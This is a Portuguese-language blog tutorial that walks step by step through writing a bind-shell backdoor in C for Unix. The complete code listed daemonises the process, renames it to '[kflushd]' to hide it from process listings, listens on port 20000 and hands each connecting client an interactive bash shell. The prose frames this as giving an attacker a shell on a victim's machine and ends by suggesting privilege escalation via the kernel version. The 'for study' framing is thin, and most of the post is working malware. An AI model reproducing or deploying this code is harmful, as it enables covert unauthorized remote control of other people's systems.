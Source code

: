 ```yaml
---
layout: post
title: writing backdoor in C sockets berkeley [UNIX] 0xc6
categories: [C programming]
tags: [sockets,berkeley,unix,backdoor,0xc6, C]
fullview: true
comments: true
---
```


<p>Continuando com nosso artigos sobre <a>C</a>, depois de um keylogger vamos brincar mais um pouco com socket's, primeiro o que é um backdoor ? , também conhecido como portas dos fundos, não o canal no youtube tou falando sem humor aqui o blackdoor é de titânio. O backdoor o que ele faz é criar um processo que levante um serviço que devolve uma shell para o atacante, certamente vai fazer uma conexão reversa ou direta(bind), hoje em dia é comum achar apenas para conexão reversa pois de uns anos pra cá ouve a necessidade de a vitima se conectar ao atacante isso tudo pelo fato dos IPs dinâmicos, que mudam constantemente, mas em servidores WEB são muito comum ataque desse tipo já o IP torna-se estático. Qual a utilidade de aprender a criar um backdoor ? meu amigo, quando você entende como criar um backdoor isso exige um conhecimento básico em redes + algumas coisa sobre programação digamos que básico também, a criação de um backdoor para estudos nós dar uma ideia de como funciona os Trojan e backdoor sofisticados que são usando no mercado negro alguns com funções que da pra comprar com Trojan, fora que você pode está desenvolvendo outras coisas que ao meu ver pode ajuda-lo na busca de conhecimento. Tranquilo ? beleza...</p>
<p>Os Headers</p>
{% highlight c++ %}
// Retire os espaço dos header's
#include < stdio.h >
#include < stdlib.h >
#include < errno.h  >
#include < strings.h >
#include < netinet/in.h >
#include < sys/socket.h >
#include < sys/types.h >
#include < signal.h >
{% endhighlight  %}
<p>Basicamente todos os header ja conhecemos, com exerção de alguns como <a>signal.h</a> a ideia de usa-lo é para tratar alguns erro de hardware que possa fazer com que nosso backdoor não funcione corretamente tipo A função signal() associa um comportamento que o processo deve ter ao receber o sinal, que pode ser o comportamento padrão, ignorar o sinal ou executar uma função específica. Em especial os sinais SIGKILL e SIGSTOP não podem ser tradados com uma função ou ignorados, é bem comum ver SIGSEGV em muitos programas maliciosos, até porque não é vindo uma Falha de segmentação que interrompe a execução por violação de memoria e etc... o cabeçalho errno.h como nome já diz tratamento de erro, pode-se usar perror.h também é escolha . quando importamos essa biblioteca é necessário importa outras que vão ajudar no tratamento como stdio.h para os printf que auxilia no tratamento da saída da msg e e strerror definida em string.h que fornece a string de caracteres com a mensagem de erro. </p>
``` c++
#define MINHA_PORTA 20000 /* A porta do servidor */
#define BACKLOG        5 /* Até quantas conexões */

int main(int argc, char *argv[])
{

	int Meusocket, Novosocket, tamanho;
	struct sockaddr_in local;
	struct sockaddr_in remote;
```
<p>Se você já acompanha nossa serie sobre socket em C não ter problemas algum com esses códigos acima, não tem nenhuma diferença. mas explicando assim mesmo criamos dois descritor ou dois socket e uma variável tamanho, essa variável tamanho vai ser usada na função  accept()  se não lembra int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen); é preciso calcular o tamanho da estrutura addr que nesse caso vai ser nosso endereço, e temos a criação das duas estruturas a local e remota.</p>
``` c++
/* Cria um processo crianca ou menor, para não necessitar executar
	   usando & */
	if(fork() == 0){
		strcpy(argv[0], "[kflushd]");
		signal(SIGCHLD, SIG_IGN);

		/* Criando a estrutura local(servidor) */

		bzero(&local, sizeof(local));
		local.sin_family = AF_INET;
		local.sin_port = htons(MINHA_PORTA);
		local.sin_addr.s_addr = INADDR_ANY;
		bzero(&(local.sin_zero), 8);

```
<p> A syscall fock() é usada para criar processo, lá do nosso header <a>sys/types.h</a>. Ela não tem argumento e sempre retorna o PID do processo ela retorna uma valor positivo, nesse caso vamos criar um processo filho se ele voltar  0 quer dizer que nosso processo filho foi criado com sucesso :D  Unix fará uma exata cópia do espaço de endereço do pai e dá-lo à criança. Portanto, os processos pai e filho têm separado espaços de endereçamento. Logo em seguida vem a manha( R1,R1,O R2, cima,baixo,cima,baixo,cima,baixo). se você teve infância verá que é a manha de tirar a polícia no GTA Sanadreas, é a mesma coisa que estamos fazendo ali em cima, vamos supor que a vitima tente dar uma de espertinha e dar um ps aux no terminal para ver os processo e achar e matar nosso backdoor, a ideia é mudar o nome do nosso backdoor para <a>kflushd</a> ou qualque nome de processo que seja nativo do Unix um daemon da vida também pode ajudar. Agora vem nossa estrutura local, como assim ? vai me dizer que já esqueceu precisamos definir o que vamos criar bzero() já falei sobre ela  pode-se usar memset() o compilador não vai reclamar, mas bzero é mais eficiente devido ao fato de que é apenas nunca vai ser zerar a memória, então ele não tem que fazer qualquer verificação adicional que memset pode fazer. Isso ainda não significa necessariamente parecer uma razão absolutamente não usar memset para zerar a memória embora. em seguida, definimos a familia do socket e convertermos o valor da variável <a>MINHA_PORTA</a> com a função htons(), que converte os valores entre o host e network byte order. definimos o IP e preenchermos de zero nossa estrutura para fechar os 16 bytes :D.</p>
``` c++
/* Declaração do socket(),bind() e listen() */

		Meusocket=socket(AF_INET, SOCK_STREAM, 0);
		bind(Meusocket, (struct sockaddr *)&local, sizeof(struct sockaddr));
		listen(Meusocket, BACKLOG);
		tamanho = sizeof(struct sockaddr_in);


```
<p>E agora declaração das conexões, definimos nosso descritor, criamos o bind() int bind(int sockfd, const struct sockaddr *addr,socklen_t addrlen); A bind() é a mesma coisa que ligar() quando criamos um socket() não tem nenhuma atribuição dos nosso dados local, ou seja, a nossa estrutura precisa ser atribuída, especificado por addr ào socket referido pelo descritor de arquivo sockfd que é nosso descritor  Meusocket. addrlen especifica o tamanho, em bytes, da estrutura de endereço apontado pelo addr . tradicionalmente, esta operação é chamada de "atribuir um nome de um socket". lembra logo no início do nosso código definirmos uma viriável BACKLOG ela determinará a quantidade de cliente que podem se conectar ao meu backdoor. é preciso passar dois argumentos int listen(int sockfd, int backlog); o nosso descritor e inteiro que é a quantidade. depois vem o uso da variável tamanho que calcula o tamanho da estrutura socketaddr_in() que vai ser usado logo em seguida pelo nosso novosocket's criado.</p>
``` c++
while(1)
		{
			if((Novosocket=accept(Meusocket, (struct sockaddr *)&remote,&tamanho))==1)
			{
				perror("accept");
				exit(1);
			}

			if(!fork())
			{
				close(0); close(1); close(2);

				/* dup2() aqui é usado para criar uma copia de Novosocket */

				dup2(Novosocket, 0); dup2(Novosocket, 1); dup2(Novosocket,2);
		                   /* Entao a shell é executada, nesse caso uma bash
				   Mude-a para qualquer uma que quiser, e atenção ao
				   parâmetro -i, nem todas aceitam shell interativa */
				execl("/bin/bash","bash","-i", (char *)0);
				close(Novosocket);
				exit(0);
			}

		}
	}
	return(0);
}
```
<p>Agora vem onde acontece nossa shell até ia tudo bem virmos coisas que já conhecemos agora a coisa muda e ao mesmo tempo fica simples de entender, comecarmos logo com um while true logo depois do accept() sempre você verá algum do tipo, há muitos jeitos de fazer o mesmo fazer com que o programa nos devolva um shell seja ela por meio de um comando system()  ou execl, você pode encontrar outros backdoor com mensagem como assim mensagem, isso mesmo podemos fazer um programa tipo um chat , mas quando recebermos tal mensagem ativamos a nossa shellcode tipo assim "execute:ls -ln", já demostrei algum do tipo em python, em C não muda nada é  mesmo esquema. Em seguida, usamos a função fock() , é o mesmo esquema mandamos ela criar um processo filho, para executar nossa shell,caso ele não consiga criar ele vai sair, até porque não temos o <a>else{}</a> se ele voltar -1 no caso. Agora vem os  close() que fecha o descritor de arquivo associado com a saída padrão para o processo atual, re-atribui a saída padrão para um novo descritor de arquivo e fecha o descritor de arquivo original, isso é preciso pois vamos fazer uma copia usável do novosocket() quando você usa o fock() você pode fazer duas coisas A primeira é a de abrir / dev / tty que lhe dará acesso ao seu dispositivo terminal (assumindo que o dispositivo de terminal é o que você quer em vez do identificador de arquivo original). A segunda é a dup que identificador de arquivo antes de fechá-lo para que você tenha uma cópia utilizável. Então, você pode usar dup2 para obtê-lo de volta. Nesse caso usamos o dup2() apenas para copiar nosso novosocket que está sendo usado na conexão.Já o execl() lógico executa um comando , nesse caso uma shell interativa -i, O último parâmetro deve ser sempre 0. É um terminador NULL . Uma vez que a lista de argumentos é variável que deve ter alguma maneira de dizer C quando está para acabar. O terminador NULL faz este trabalho.onde caminho aponta para o nome do arquivo contendo um comando que deve ser executado, argo aponta para uma string que é o mesmo que caminho (ou pelo menos o seu último componente. arg1 ... argn são ponteiros para argumentos para o comando e 0 simplesmente marca o final da lista (variável) de argumentos. depos fechamos nosso socket's. agora é só testar :D. é isso um backdoor para estudos entender como funciona, em breve veremos outro vamos dizer que avançado, isso é tudo pessoal, lembre-se  usem porta do acima de 1024 já que com elas pode executar sem ter privilégios root, depois da pra tentar fazer o root verificando a versão do kernel.
Referências:</p>
<pre>
Nash Leon
http://www-usr.inf.ufsm.br/~giovani/sockets/sockets.txt
http://gnosis.cx/publish/programming/sockets.html
http://www.csd.uoc.gr/~hy556/material/tutorials/cs556-3rd-tutorial.pdf
</pre>
